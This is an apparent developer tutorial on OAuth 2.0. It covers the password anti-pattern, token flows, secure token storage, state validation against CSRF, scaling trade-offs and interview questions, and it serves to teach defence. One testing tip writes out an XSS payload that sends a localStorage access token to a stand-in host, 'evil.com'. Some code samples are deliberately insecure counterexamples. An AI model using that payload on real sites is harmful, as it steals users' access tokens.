


⚡ TL;DR - OAuth exists because the internet needed a safe way to let
one application act on your behalf at another application - without
handing over your password.

---

### 🔥 The Problem This Solves

**WORLD WITHOUT IT:**

The year is 2006. You want a travel app to read your Google contacts
so it can invite your friends to a trip. The only solution the travel
app has: ask you for your Google username and password, log in as you,
scrape your contacts, then store your credentials for next time.

You've just handed your master key to a third party. The travel app
now has full access to your Gmail, Drive, Calendar, and every other
Google service - forever. If the travel app is breached, your Google
account is compromised. If you change your Google password, the travel
app breaks. If you want to revoke access, your only option is to change
your password - which revokes access to every other app that stored it.

**THE BREAKING POINT:**

This pattern - called the **password anti-pattern** - was epidemic by
2006. Twitter, Facebook, and early Google services were all facing it.
Applications stored millions of user passwords. Breaches were
catastrophic. Users had no visibility into what apps held their
credentials, no granular control, and no revocation mechanism short
of the nuclear option.

The core problem: HTTP APIs had no concept of *delegated authority* -
the ability for a user to say "this specific app may do this specific
thing on my behalf, and nothing more."

**THE INVENTION MOMENT:**

This is exactly why OAuth was created - to solve the delegation problem
without sharing passwords.

**EVOLUTION:**

Before OAuth, the web relied on the password anti-pattern or
site-specific token schemes with no interoperability. OAuth 1.0 (2007)
introduced signed requests but required complex cryptographic
signatures on every call. OAuth 2.0 (RFC 6749, 2012) simplified this
by moving trust to HTTPS and using bearer tokens - making it accessible
to every developer. The field is now evolving toward OAuth 2.1
(consolidating security best practices) and GNAP (rethinking the
protocol from first principles).

---

### 📘 Textbook Definition

OAuth 2.0 is an authorization framework (RFC 6749) that enables a
third-party application to obtain limited access to an HTTP service,
either on behalf of a resource owner through an approval interaction,
or by allowing the third-party application to obtain access on its own
behalf. It replaces credential sharing by issuing access tokens that
represent a specific scope of access, for a specific duration, to a
specific client.

---

### ⏱️ Understand It in 30 Seconds

**One line:**
OAuth lets you give an app a valet key - access to one thing, not
your whole life.

**One analogy:**

> A hotel valet key opens your car door and starts the engine, but
> it cannot open the glove compartment or the trunk. You hand the valet
> the key, they park the car, and you get the key back. The valet never
> knew your home address or safe combination.

**One insight:**
The critical insight is the separation between *authentication* (proving
who you are) and *authorization* (granting what an app may do). OAuth
handles only authorization. It does not tell the travel app who you
are - it just tells Google "this app may read this user's contacts."
That distinction matters enormously for security design.

---

### 🔩 First Principles Explanation

**CORE INVARIANTS:**

1. A user should never share their primary credential with a third party.

2. Access should be scoped - a travel app should not get email access
   when it only needs contacts.

3. Access should be revocable without disrupting other apps or requiring
   a credential change.

4. The resource server (e.g. Google) should be able to verify what
   access was granted without contacting the user again.

**DERIVED DESIGN:**

Given these invariants, any correct solution must introduce an
intermediary that holds the user's trust and can issue scoped,
revocable credentials to third parties. That intermediary is the
**Authorization Server**. The credential it issues is an **Access
Token** - a short-lived, scoped proof of delegated authority. The
third party (the **Client**) presents this token to the **Resource
Server** (the API), which validates it without ever seeing the user's
password.

The authorization server requires user consent, logs what was granted,
and can revoke tokens independently. The user's actual credentials
never leave the authorization server.

**THE TRADE-OFFS:**

**Gain:** Scoped, revocable, credential-free delegation; standardized
protocol that works across providers.

**Cost:** Complexity. OAuth adds multiple actors, redirects, and token
exchanges to flows that used to be a single API call with credentials.
Implementing it correctly - especially handling PKCE, state validation,
and token storage - requires care that many developers skip.

**ESSENTIAL vs ACCIDENTAL COMPLEXITY:**

**Essential:** Any delegation solution must involve at least three
parties (user, client, resource), a consent step, and a way to issue
and validate scoped credentials. That irreducible structure is what
makes delegation secure.

**Accidental:** OAuth's redirect-based flows, the proliferation of
grant types, and the historical baggage of deprecated flows (Implicit,
ROPC) are accidental - artifacts of the web platform constraints
of 2012 and incremental evolution rather than clean design.

---

### 🧪 Thought Experiment

**SETUP:**

You build a calendar app. Users want to import contacts from their
email. You need read access to their email contact list. That's all
you need - just contacts, just read, just this user.

**WHAT HAPPENS WITHOUT OAUTH:**

You ask for their email password. You store it. You call the email
API as them. Now you have full access - not just contacts, but email
content, sent messages, calendar, everything. Three months later your
database is breached. Every user's email account is now compromised.
When a user wants to revoke your access, their only option is to
change their email password - which also breaks every other app they
use. They have no way to see what you accessed.

**WHAT HAPPENS WITH OAUTH:**

The user clicks "Import from Gmail." Your app redirects to Google.
The user sees: "Calendar app is requesting: Read your contacts.
Allow / Deny." They click Allow. Google issues your app a token
scoped to `contacts.readonly`. Your app reads contacts using that
token. Google logs the grant. The user can visit their Google account,
see your app listed, and click "Remove access" - instantly. Your app
receives a 401 on the next call. Their email is untouched.

**THE INSIGHT:**

The delegation problem requires separating *what the credential
proves* (identity) from *what it permits* (scope). A scoped,
revocable token solves this; a shared password never can.

---

### 🧠 Mental Model / Analogy

> OAuth is a permissions slip for apps. Just as a school requires a
> signed permission slip before a student can attend a field trip -
> and the slip specifies which trip, which date, and which student -
> OAuth requires explicit user consent before an app can access a
> resource, and that consent is scoped, dated, and revocable.

- "Signing the permission slip" - user grants consent at the authorization server
- "The field trip destination" - the scope (contacts, read-only)
- "The student" - the resource owner (the user's data)
- "The teacher verifying the slip" - the resource server validating the token
- "Tearing up the slip" - token revocation
- "No slip, no trip" - the resource server rejects requests without a valid token

Where this analogy breaks down: permission slips are paper and
unverifiable at scale - access tokens are cryptographically signed
or server-validated, making forgery detectable.

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
OAuth is a system that lets you give apps permission to access parts
of your account at another service, without giving them your password.
You've used it every time you clicked "Sign in with Google."

**Level 2 - How to use it (junior developer):**
To use OAuth, your app redirects the user to the authorization server
with a request for specific scopes. The user approves, you receive a
temporary authorization code, exchange it for an access token, then
call the API with that token in the `Authorization: Bearer` header.
When the token expires, use the refresh token to get a new one.

**Level 3 - How it works (mid-level engineer):**
The authorization server validates the client's identity (via
client_id/secret or PKCE), checks the requested scopes against what
the client is allowed to request, presents a consent screen, then
issues an opaque or JWT access token signed with its private key.
The resource server either calls the token introspection endpoint
or validates the JWT signature locally using the authorization
server's public key from its JWKS endpoint.

**Level 4 - Why it was designed this way (senior/staff):**
OAuth 2.0 deliberately separated the authorization server from the
resource server, enabling multi-tenant architectures where one
authorization server serves many APIs. The choice of bearer tokens
over OAuth 1.0's signed requests was a deliberate trade of security
for simplicity - HTTPS was now ubiquitous enough to carry that
security burden. This created a known weakness (token theft = full
access) that later specs like DPoP address by binding tokens to
client keys.

**Level 5 - Mastery (distinguished engineer):**
The most profound insight about OAuth is that it is not an
authentication protocol - it is a *consent delegation* protocol.
Every security mistake in OAuth implementations comes from treating
it as an authentication protocol. When you receive an access token,
you know only that *some user* granted access *to some client* for
*some scope*. You do not know who that user is. OpenID Connect was
built on top of OAuth 2.0 specifically to add identity. The
separation is intentional: it keeps the authorization concern clean.
A staff engineer recognizes when a system conflates these two
concerns and knows the exact class of vulnerabilities that follow.

---

### ⚙️ How It Works (Mechanism)

The Authorization Code Flow - the safest and most common pattern:

```
┌──────────────────────────────────────────────────────┐
│       Authorization Code Flow - Overview             │
├──────────────────────────────────────────────────────┤
│                                                      │
│  User       Client      Auth Server   Resource       │
│   │            │             │           │           │
│   │ Click Login│             │           │           │
│   │───────────>│             │           │           │
│   │            │  Redirect:  │           │           │
│   │            │  client_id  │           │           │
│   │            │  scope,state│           │           │
│   │            │────────────>│           │           │
│   │<──────────────────────── │           │           │
│   │  Authenticate + consent  │           │           │
│   │ ─────────────────────────│           │           │
│   │            │<────────────│           │           │
│   │            │ code+state  │           │           │
│   │            │             │           │           │
│   │            │ POST /token │           │           │
│   │            │ code+secret │           │           │
│   │            │────────────>│           │           │
│   │            │<────────────│           │           │
│   │            │access_token │           │           │
│   │            │             │           │           │
│   │            │  GET /data  │           │           │
│   │            │  Bearer tok │           │           │
│   │            │─────────────────────────>           │
│   │            │<─────────────────────────           │
│   │            │  200 + data │           │           │
└──────────────────────────────────────────────────────┘
```



**Step-by-step: why each step exists:**

1. **Redirect with state**: The `state` parameter is a random nonce
   the client generates and validates on return. Without it, an
   attacker can trick the browser into completing a flow initiated
   by the attacker (CSRF attack on the OAuth flow).

2. **Code not token in redirect**: The browser URL bar and Referer
   header are logged everywhere. If the token appeared in the
   redirect URL, it would leak into logs. The code is short-lived
   (60 seconds) and single-use - even if logged, it cannot be
   used without the client_secret.

3. **Back-channel token exchange**: The code-for-token exchange
   happens server-to-server (back channel), where client_secret
   is safe. The token never touches the browser URL bar.

4. **Bearer token in Authorization header**: Placing the token in
   the `Authorization` header keeps it out of URLs and logs.
   `Authorization: Bearer <token>` is the standard (RFC 6750).

---

### 🔄 The Complete Picture - End-to-End Flow

**NORMAL FLOW:**

```
User Action → Client redirect → Auth Server consent
  → Code issued → Client back-channel exchange
  → Token issued [YOU ARE HERE] → API call
  → Resource Server validates token → Data returned
```

**FAILURE PATH:**

```
Token expired → Resource Server returns 401
  → Client uses refresh_token → New access_token
  → If refresh_token expired → Force re-login
```

**WHAT CHANGES AT SCALE:**

At scale, the authorization server becomes a critical bottleneck.
Token introspection (calling the auth server to validate each API
request) cannot survive at 100,000 requests/second - this is why
JWT access tokens (self-contained, locally verifiable) are used at
scale instead of opaque tokens requiring introspection calls.
Refresh token rotation and token revocation checking add
distributed coordination challenges at high throughput.

---

### 💻 Code Example

**Example 1 - Wrong vs Right: Token storage (BAD then GOOD):**

```javascript
// BAD: Token in localStorage - readable by any JS on page
// XSS vulnerability: attacker script reads this instantly
localStorage.setItem('access_token', token);

// BAD: Token in URL fragment (Implicit flow pattern)
// Analytics scripts and browser history log the full URL
const token = new URLSearchParams(
  window.location.hash.slice(1)
).get('access_token');
```

```javascript
// GOOD: Token in memory only (SPA) - lost on refresh
// but immune to XSS token theft
let accessToken = null;

function setToken(token) {
  accessToken = token; // never persisted
}

// GOOD: Refresh token in httpOnly cookie
// Server: Set-Cookie: refresh_token=...; HttpOnly; Secure
// JS cannot read httpOnly cookies - only browser sends them
// Short-lived access token in memory, long-lived refresh
// token in httpOnly cookie = best of both worlds
```

- WHY: `localStorage` is readable by any JS including injected
  scripts. `httpOnly` cookies are invisible to JavaScript.
- WHAT BREAKS: Any XSS vector + localStorage token storage =
  silent token exfiltration for every active user session.
- HOW TO TEST: Inject `document.location='evil.com?t='+localStorage.getItem('access_token')`
  - if it fires with a token, storage is insecure.

**Example 2 - Production: Auth Code + PKCE (Spring Security):**

```yaml
# application.yml - OAuth2 client configuration
spring:
  security:
    oauth2:
      client:
        registration:
          github:
            client-id: ${GITHUB_CLIENT_ID}
            client-secret: ${GITHUB_CLIENT_SECRET}
            scope: read:user,user:email
            # PKCE auto-applied for public clients
        provider:
          github:
            authorization-uri: >
              https://github.com/login/oauth/authorize
            token-uri: >
              https://github.com/login/oauth/access_token
            user-info-uri: >
              https://api.github.com/user
```

```java
// Spring Security filter chain - OAuth2 resource server
@Bean
public SecurityFilterChain filterChain(
    HttpSecurity http) throws Exception {
  http
    .authorizeHttpRequests(auth -> auth
      .requestMatchers("/api/**").authenticated()
      .anyRequest().permitAll()
    )
    .oauth2Login(Customizer.withDefaults())
    .oauth2ResourceServer(oauth2 -> oauth2
      .jwt(Customizer.withDefaults()) // local JWT verify
    );
  return http.build();
}
```

- WHY: Spring handles state, PKCE, exchange, and JWT validation.
  Never implement these manually - subtle bugs are catastrophic.
- WHAT CHANGES AT SCALE: `.jwt()` validates locally after caching
  JWKS keys. Key rotation triggers JWKS re-fetch on first 401.

**Example 3 - Failure: Missing state validation (CSRF attack):**

```java
// BAD: state received but never validated
@GetMapping("/callback")
public String callback(
    @RequestParam String code,
    @RequestParam(required = false) String state) {
  // Attacker forges a callback - code binds to victim
  String token = exchangeCodeForToken(code);
  session.setAttribute("token", token);
  return "redirect:/dashboard";
}
```

```java
// GOOD: state validated against session-stored value
@GetMapping("/callback")
public String callback(
    @RequestParam String code,
    @RequestParam String state,
    HttpSession session) {
  String expected =
    (String) session.getAttribute("oauth_state");
  if (expected == null || !expected.equals(state)) {
    throw new SecurityException(
      "State mismatch - CSRF protection triggered");
  }
  session.removeAttribute("oauth_state"); // single use
  String token = exchangeCodeForToken(code);
  session.setAttribute("token", token);
  return "redirect:/dashboard";
}
```

- WHAT BREAKS: Without state check, attacker initiates a flow,
  sends the callback URL to a victim - victim's session gets the
  attacker's authorization (account hijack or token theft).
- HOW TO TEST: Start a login, capture callback URL, tamper state,
  replay. Vulnerable app redirects to dashboard anyway.

---

### ⚖️ Comparison Table

| Approach | Security | Complexity | Revocability | Best For |
|---|---|---|---|---|
| **OAuth 2.0** | High | High | Yes | Third-party delegation |
| API Keys | Medium | Low | Yes (rotation) | Machine-to-machine |
| Password sharing | Very low | Very low | No | Never use |
| Session cookies | Medium | Low | Yes | First-party web apps |
| SAML 2.0 | High | Very high | Yes | Enterprise SSO |

How to choose: Use OAuth 2.0 when a third-party app needs delegated
access to a user's resources. Use API keys for service-to-service
calls where no user delegation is needed. Use session cookies for
your own first-party web application.

---

### 🔁 Flow / Lifecycle

```
┌─────────────────────────────────────────────────────┐
│           OAuth 2.0 Token Lifecycle                 │
├─────────────────────────────────────────────────────┤
│                                                     │
│  [Auth Request] ──→ [User Consent]                 │
│        │                  │                        │
│        │                  ↓                        │
│        │        [Code Issued - 60s TTL]            │
│        │                  │                        │
│        │                  ↓                        │
│        │       [Code + Secret → Token]             │
│        │                  │                        │
│        ↓                  ↓                        │
│  [Token Active] ◄─────────┘                        │
│      │    │                                        │
│ API  │    ↓ expires (15min typical)                │
│ calls│  [Token Expired]                            │
│      │       │                                     │
│      │       ↓ if refresh_token valid              │
│      │  [Refresh Exchange]                         │
│      │       │                                     │
│      └──[New Token] ─────────────── loop           │
│               │                                    │
│               ↓ refresh expired                    │
│         [Re-authenticate]                          │
└─────────────────────────────────────────────────────┘
```



---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|---|---|
| "OAuth is an authentication protocol" | OAuth is an *authorization* framework. It does not prove identity - add OpenID Connect for that. |
| "A valid token means the user is legitimate" | A valid token means *some user* delegated access. Phishing attacks trick users into authorizing malicious clients. |
| "localStorage token storage is fine for SPAs" | localStorage is readable by any JS including XSS payloads. Use memory or httpOnly cookies. |
| "OAuth is too complex - just use API keys" | API keys grant full, permanent, unscoped access. OAuth's complexity buys scoping, expiry, and revocability. |
| "Implicit flow is a simpler equivalent" | Implicit flow leaks tokens into URL fragments (browser history, Referer headers). It is deprecated in OAuth 2.1. |
| "My app is the OAuth server" | Your app is almost always the OAuth *client*. Authorization servers are Google, Okta, Keycloak - not your app unless you are explicitly building one. |

---

### 🚨 Failure Modes & Diagnosis

**Missing State Parameter Validation**

**Symptom:**
Users report being logged into wrong accounts, or accounts being
linked to attacker sessions during social login flows.

**Root Cause:**
The OAuth callback endpoint does not validate the `state` parameter
against the session-stored value. An attacker initiates an OAuth
flow, stops before consent, and sends the callback URL to a victim.
The victim's browser completes the flow, binding the attacker's
authorization to the victim's session.

**Diagnostic Command / Tool:**

```bash
# Test: does the callback accept a tampered state?
# 1. Start a login flow, note the state value
# 2. Tamper the state in the callback URL
# 3. If app completes login, state is not validated
curl -v "https://app.example.com/oauth/callback\
?code=REAL_CODE&state=tampered_value"
# Safe: HTTP 400 or error page
# Vulnerable: HTTP 302 to /dashboard
```

**Fix:**
Generate `SecureRandom` state per flow, store in session, compare on
callback, invalidate after use.

**Prevention:**
Make state validation a checklist item in OAuth code review. Reject
PRs that skip it.

---

**Token Stored in URL Fragment (Implicit Flow Leakage)**

**Symptom:**
Access tokens appear in browser history, web server logs, or are
sent to third-party analytics services via Referer headers.

**Root Cause:**
Using the deprecated Implicit flow delivers the token in the URL
fragment (`#access_token=...`). JavaScript reads `location.hash`
and analytics scripts often capture the full URL.

**Diagnostic Command / Tool:**

```bash
# Audit: is your app using Implicit flow?
grep -rn "response_type=token" src/ --include="*.js"
grep -rn "response_type=token" src/ --include="*.ts"
# If found: migrate to Authorization Code + PKCE
```

**Fix:**
Replace Implicit flow with Authorization Code + PKCE. Token never
appears in the URL.

**Prevention:**
Never use Implicit flow for new applications. OAuth 2.1 removes it.

---

**Overly Broad Scopes**

**Symptom:**
A compromised token grants far beyond what the feature requires
(e.g. a contacts-import feature has `mail.full_access`).

**Root Cause:**
Developer requested broad scopes upfront to avoid future user
re-authorization, violating the principle of least privilege.

**Diagnostic Command / Tool:**

```bash
# Decode JWT access token to inspect scopes
echo "<token>" | cut -d'.' -f2 \
  | base64 --decode | jq '.scope'

# Or: call token introspection endpoint
curl -X POST https://auth.example.com/introspect \
  -d "token=<token>" \
  -u "client_id:client_secret" | jq '.scope'
```

**Fix:**
Request minimum scopes per feature. Use incremental authorization
(prompt for new scopes when the user reaches the feature).

**Prevention:**
Scope audit in code review. Any PR requesting `*`, `full_access`,
or equivalent must justify each scope individually.

---

### 🔗 Related Keywords

**Prerequisites (understand these first):**

- `HTTP Headers` - OAuth tokens travel in the Authorization header
- `HTTPS / TLS` - OAuth's security depends on encrypted transport
- `Authentication vs Authorization` - OAuth handles authorization, not identity

**Builds On This (learn these next):**

- `Authorization Code Flow` - the primary OAuth flow in full detail
- `PKCE` - mandatory security extension for public clients
- `OpenID Connect (OIDC)` - adds identity on top of OAuth 2.0
- `JWT Access Tokens` - self-contained tokens avoiding introspection
- `OAuth 2.0 Threat Model` - the full catalog of known attacks

**Alternatives / Comparisons:**

- `API Keys` - simpler but no delegation, no scoping, no expiry by default
- `SAML 2.0` - enterprise SSO alternative, XML-based, pre-OAuth
- `Session Cookies` - correct for first-party apps; no third-party support

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ WHAT IT IS   │ Authorization delegation framework        │
├──────────────┼───────────────────────────────────────────┤
│ PROBLEM IT   │ Third-party apps needed access without    │
│ SOLVES       │ users sharing passwords                   │
├──────────────┼───────────────────────────────────────────┤
│ KEY INSIGHT  │ OAuth is NOT authentication - it grants   │
│              │ scoped access, not identity proof         │
├──────────────┼───────────────────────────────────────────┤
│ USE WHEN     │ Third-party app needs delegated access to │
│              │ a user's resources at another service     │
├──────────────┼───────────────────────────────────────────┤
│ AVOID WHEN   │ You control both client and API - use     │
│              │ session auth or API keys instead          │
├──────────────┼───────────────────────────────────────────┤
│ ANTI-PATTERN │ Treating an access token as proof of user │
│              │ identity (must add OpenID Connect)        │
├──────────────┼───────────────────────────────────────────┤
│ TRADE-OFF    │ Scoped revocable access vs complexity     │
│              │ of multi-actor redirect flows             │
├──────────────┼───────────────────────────────────────────┤
│ ONE-LINER    │ "A valet key for APIs: specific, limited, │
│              │  revocable - never the master key"        │
├──────────────┼───────────────────────────────────────────┤
│ NEXT EXPLORE │ Auth Code Flow → PKCE → OpenID Connect    │
└──────────────────────────────────────────────────────────┘
```

**If you remember only 3 things:**

1. OAuth is authorization, not authentication - never determine
   who a user is from an access token without OpenID Connect.

2. Always validate the `state` parameter - every OAuth CSRF
   vulnerability comes from skipping this check.

3. Tokens in localStorage are stolen by XSS - use memory or
   httpOnly cookies.

**Interview one-liner:**
"OAuth 2.0 solves the password anti-pattern: instead of giving a
third-party app your credentials, you grant it a scoped, time-limited,
revocable token through a consent flow at the authorization server.
The app never sees your password."

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
Delegation with minimum necessary privilege is the safest form of
access control. Never grant more access than the specific task
requires, and always provide a revocation mechanism. This principle
governs secure design in every domain where one party must act on
behalf of another.

**Where else this pattern appears:**

- AWS IAM Roles - EC2 instances receive scoped, temporary role
  credentials instead of permanent access keys; revocable by
  detaching the role
- Kubernetes RBAC - service accounts get minimum permissions
  for their workload; no cluster-admin unless required
- Legal power of attorney - grants specific, revocable authority
  to act on another's behalf without sharing all personal access

**Industry applications:**

- Open Banking (PSD2, CDR) - regulations mandate OAuth 2.0-based
  delegation for third-party fintech apps accessing bank data;
  FAPI 2.0 adds security requirements on top of baseline OAuth
- Healthcare (SMART on FHIR) - patient apps access medical records
  via OAuth 2.0 delegation without hospitals holding app credentials

---

### 💡 The Surprising Truth

OAuth 2.0 is not a protocol - it is a *framework*. RFC 6749
explicitly calls it an "authorization framework" and intentionally
leaves token format, token validation, client authentication, and
many security decisions unspecified. This is why two compliant
OAuth 2.0 implementations are often incompatible with each other,
and why standardizing the missing pieces required separate RFCs
published years after the core spec (RFC 7009 for revocation, RFC
7662 for introspection, RFC 7517/7518 for JWT/JWKS, RFC 8414 for
server metadata). OAuth's widespread adoption was built partly on
strategic underspecification - flexible enough for everyone to use,
but requiring a decade of follow-on RFCs to become truly
production-safe.

---

### ✅ Mastery Checklist

**You've mastered this when you can:**

1. **[EXPLAIN]** Explain to a non-technical product manager why
   your app asks "Allow access to your contacts?" instead of
   asking for an email password - without using the words "OAuth,"
   "token," or "protocol."

2. **[DEBUG]** Given a user complaint that "Login with Google
   keeps redirecting me back to the login page," name the three
   most likely causes (state mismatch, redirect URI mismatch,
   expired authorization code) and the exact HTTP parameter to
   inspect for each.

3. **[DECIDE]** A colleague proposes using Implicit flow for their
   SPA to avoid a back-channel server. Articulate exactly why this
   is wrong, what attack it enables, and what the correct
   alternative is (Authorization Code + PKCE).

4. **[BUILD]** Configure a Spring Security application as an
   OAuth 2.0 client for GitHub, requesting only `read:user` scope,
   with state validation and PKCE enforced.

5. **[EXTEND]** A new team asks whether to build their own
   authorization server or use Keycloak/Auth0. Deliver a
   build-vs-buy framework including the specific security risks
   of building from scratch.

---

### 🧠 Think About This Before We Continue

**Q1.** Your app requests `calendar.full_access` scope to avoid
future re-authorization, but only uses `calendar.readonly`. The
tokens are JWTs with a 1-hour TTL. Describe the full additional
attack surface this scope grant creates compared to requesting
only the minimum scope.

*Hint: Think about what write access to a calendar enables beyond
reading, then consider what a phishing attack or XSS that
exfiltrates a token can do with the broader scope.*

**Q2.** At 10 million daily active users, your authorization server
issues opaque tokens requiring one introspection call per API
request. Users make an average of 20 API calls per session. What
is the daily introspection call volume, and what is the blast
radius if the authorization server goes down for 30 seconds?
Compare this to JWT-based validation.

*Hint: Calculate the call volume first. Then trace what every
resource server does when introspection returns 503. Now consider
the same outage with JWT - what is different?*

**Q3.** Build a minimal Authorization Code flow handler in any
language: `/authorize` endpoint, `/token` endpoint, and `/revoke`
endpoint. What are the three data stores you need, and what
consistency requirements must each satisfy for the system to be
correct and secure?

*Hint: Authorization codes are short-lived and single-use. Tokens
must survive restarts. The revocation list must be consulted on
every API request. What fails if each store is unavailable?*

---

### 🎯 Interview Deep-Dive

**Q1: A colleague says your app "authenticates users using OAuth."
What is wrong with this, and what is actually happening when a
user clicks "Sign in with Google"?**

*Why they ask:* Tests the most fundamental OAuth misconception -
conflating authentication with authorization.

*Strong answer includes:*
- OAuth 2.0 is an authorization framework, not authentication
- "Sign in with Google" typically uses OpenID Connect (OIDC),
  which layers an `id_token` (identity) on top of OAuth 2.0
  (authorization)
- The access token grants API access; only the `id_token`'s
  `sub` claim reliably identifies the user
- Using the access token alone to look up user identity is
  the OIDC `/userinfo` pattern, which depends on OIDC
  being in use

**Q2: A developer skips generating and validating the `state`
parameter to reduce complexity. What specific attack does this
enable and how would you demonstrate it in a security review?**

*Why they ask:* Tests practical knowledge of OAuth CSRF - the
most common real-world OAuth implementation vulnerability.

*Strong answer includes:*
- Enables OAuth CSRF: attacker initiates an auth flow, captures
  the callback URL with their authorization code, sends it to
  a victim - victim's session binds to attacker's account
- Impact: account takeover or forced token issuance
- Demonstration: code review finds a callback handler that
  receives `state` but never compares to session-stored value
- Fix: `SecureRandom` state, stored in session before redirect,
  compared and invalidated on callback

**Q3: Your API uses long-lived API keys. Describe the migration to
OAuth 2.0 Client Credentials flow. What are the three hardest
problems and how do you solve each?**

*Why they ask:* Tests production experience with OAuth adoption.

*Strong answer includes:*
- Problem 1: Existing clients need to update - run dual support
  (both API keys and OAuth tokens accepted) with a sunset date
- Problem 2: Token expiry breaks long-running processes that
  assume credentials are permanent - add token refresh loops
- Problem 3: `client_secret` must be stored in a secrets manager
  (Vault, AWS Secrets Manager), not in config files
- Bonus: JWT vs opaque tokens - JWT removes auth server
  dependency per request at cost of delayed revocation

**Q4: Your authorization server hits 95% CPU under peak load from
token introspection calls. What architectural change reduces this
load by 80%, and what new failure mode does it introduce?**

*Why they ask:* Tests JWT vs opaque token tradeoff and production
architecture thinking.

*Strong answer includes:*
- Switch to JWT access tokens: resource servers validate locally
  using cached JWKS public keys - zero introspection calls
- 80%+ load reduction on authorization server
- New failure mode: token revocation becomes eventually
  consistent - a revoked JWT remains valid until TTL expires
  because resource servers do not check a revocation list
- Mitigation: short TTLs (5-15 min) + optional revocation
  check for high-security operations only (e.g. bank transfers)